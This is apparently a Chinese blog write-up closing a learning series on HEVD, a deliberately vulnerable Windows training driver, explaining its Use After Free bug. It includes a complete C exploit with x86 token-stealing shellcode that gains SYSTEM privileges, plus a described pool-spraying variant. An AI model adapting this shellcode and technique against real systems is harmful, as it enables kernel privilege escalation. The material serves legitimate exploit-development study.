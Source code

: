 ## 0x00 前言
这篇就是 HEVD 系列的最后一篇了，有些话我放在结尾说吧。

本篇的内容为 Use After Free 漏洞分析利用。

## 0x01 Use After Free 漏洞分析
按套路我们先打开 UseAfterFreeNonPagedPool.c 文件，这个文件代码相对之前做的稍微长一点，但其实也不算长，毕竟就算是 wrk 的文件也动不动就是好几千行。

这里我就不解释源码了，大家认真阅读一下就可以知道。

可以看到，漏洞发生在 Free 函数中

![alt 1](images/useAfterFree/1.jpg)

当我们用 Alloc 函数在非换页池中分配完空间并使 g_UseAfterFreeObjectNonPagedPool 指向这段空间后，在 Free 函数的时候只释放了这段非换页池空间但并没有将 g_UseAfterFreeObjectNonPagedPool 指针置 NULL。

再看到 UseUaFObjectNonPagedPool 函数中，若 g_UseAfterFreeObjectNonPagedPool 不为 NULL 将执行 g_UseAfterFreeObjectNonPagedPool->Callback()

那么利用就很清晰了，我们只需要
> 1. 利用 Alloc 函数分配空间并使 g_UseAfterFreeObjectNonPagedPool 指向该段空间
> 2. 调用 Free 函数释放这段空间，但 g_UseAfterFreeObjectNonPagedPool 仍然指向该空间
> 3. 调用 AllocFake 来使页面变脏，使 g_UseAfterFreeObjectNonPagedPool -> Callback 的位置变为我们 shellcode 的地址
> 4. 调用 UseUaFObjectNonPagedPool 触发 g_UseAfterFreeObjectNonPagedPool->Callback() 来执行我们的 shellcode

## 0x02 Use After Free 漏洞利用
这里有个问题就是，Free 函数释放掉的 Alloc 函数分配的空间跟之后 AllocFake 分配的空间是同一块吗？（注意到 Alloc 和 AllocFake 申请的空间大小是相等的）

这就涉及到 Windows 的内存管理算法了。其实你释放掉一块空间后立马又申请一块大小相等的空间内存管理器是倾向于分配同一块空间给你的。

所以我们只需要这么一段代码就能提权了

```c
// useAfterFree.cpp : Defines the entry point for the console application.
//

#include "stdafx.h"

#include <windows.h>

#define UseUafObject 0x222017
#define	AllocateUafObject 0x222013
#define FreeUafObject 0x22201b
#define AllocateFakeUafObject 0x22201f

typedef struct _FAKE_OBJECT_NON_PAGED_POOL
{
	char Buffer[0x58];
} FakeObject, *PFakeObject;

char shellcode[] = {

	"\x90\x90\x90\x90"              // NOP Sled
	"\x60"                          // pushad
	"\x31\xc0"                      // xor eax,eax
	"\x64\x8b\x80\x24\x01\x00\x00"  // mov eax,[fs:eax+0x124]
	"\x8b\x40\x50"                  // mov eax,[eax+0x50]
	"\x89\xc1"                      // mov ecx,eax
	"\xba\x04\x00\x00\x00"          // mov edx,0x4
	"\x8b\x80\xb8\x00\x00\x00"      // mov eax,[eax+0xb8]
	"\x2d\xb8\x00\x00\x00"          // sub eax,0xb8
	"\x39\x90\xb4\x00\x00\x00"      // cmp [eax+0xb4],edx
	"\x75\xed"                      // jnz 0x1a
	"\x8b\x90\xf8\x00\x00\x00"      // mov edx,[eax+0xf8]
	"\x89\x91\xf8\x00\x00\x00"      // mov [ecx+0xf8],edx
	"\x61"                          // popad

	"\xC3"                          // ret
};

int main()
{
	LPVOID ptr = VirtualAlloc(0, sizeof(shellcode), 0x3000, 0x40);
	RtlCopyMemory(ptr, shellcode, sizeof(shellcode));

	PFakeObject pfakeObject = (PFakeObject) malloc(sizeof(FakeObject));
	memset(pfakeObject, '\x42', sizeof(FakeObject));

	*(PDWORD)pfakeObject = (DWORD)ptr;

	int noUseBuf = 0x1;
	HANDLE hevDevice = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, NULL, 0x3, 0, NULL);
	DWORD lpBytesReturned = 0;
	DeviceIoControl(hevDevice, AllocateUafObject, &noUseBuf, 0x4, NULL, 0, &lpBytesReturned, NULL);
	DeviceIoControl(hevDevice, FreeUafObject, &noUseBuf, 0x4, NULL, 0, &lpBytesReturned, NULL);
	DeviceIoControl(hevDevice, AllocateFakeUafObject, pfakeObject, sizeof(FakeObject), NULL, 0, &lpBytesReturned, NULL);

	DeviceIoControl(hevDevice, UseUafObject, &noUseBuf, 0x4, NULL, 0, &lpBytesReturned, NULL);

	system("whoami");

    return 0;
}

```
运行起来下个断点看看

![alt 2](images/useAfterFree/2.jpg)

可以看到，Alloc 和 AllocFake 申请的非换页池的基址是一模一样的。

到这里其实已经解完了。解完之后我又想看看别的师傅是怎么做的，然后我就熟练地打开了 [rookit 师傅的博客](https://rootkits.xyz/blog/2018/04/kernel-use-after-free/)

可以看到他的方法和我是不一样的。虽然在这里是没必要用这个方法的，但是若 Alloc 和 AllocFake 分配的空间基址不同呢，比如说两块空间不一样大的情况。

还记得我们在池溢出一章中用到的池喷射吗？这里使用的是 IoCompletionReserve 对象，因为 IoCompletionReserve 在非换页池中的大小正好是 0x60。（pool header + 0x58 = 0x60） IoCompletionReserve 对象可以通过 NtAllocateReserveObject 函数来获得。

就像我们在池溢出一章中所做的一样，先用 10000 个 IoCompletionReserve 对象来把非换页池中的碎片填满，就算之后还有碎片的存在也放不下我们 0x60 个字节的 Alloc 对象。然后可以认为之后分配的 5000 个 IoCompletionReserve 对象是连续的，在中间每隔一个 IoCompletionReserve 对象挖出一个 0x60 个字节的洞。然后调用 Alloc 函数，可以认为 Alloc 函数分配的空间是我们刚刚挖出的其中一个洞。释放掉 Alloc 对象之后用 AllocFake 对象填满所有挖出来的洞，那么 g_UseAfterFreeObjectNonPagedPool 指针一定是指向我们的 shellcode 的，最后调用函数 UseUaFObjectNonPagedPool 触发漏洞执行 shellcode 就好了。执行完 shellcode 之后记得回收我们刚刚分配的所有空间。

到这里也可以提权成功了。

## 0x03 结束语
好了，至此 HEVD 项目的学习就告一段落了。

非常感谢该项目的提供者。HEVD 确实是一个适合学习、适合入门的项目，我在这些天的过程中确实学到了很多。

之后一段时间打算着手于 CVE 漏洞的复现，也就是将漏洞的分析利用从学习环境挪到真实环境下了，将平台从 x86 扩展到 x64 环境下。

最后，看看自己有没有那个水平走上挖洞的路了。

： )

---

<p align='right'>2019.9.7</p>

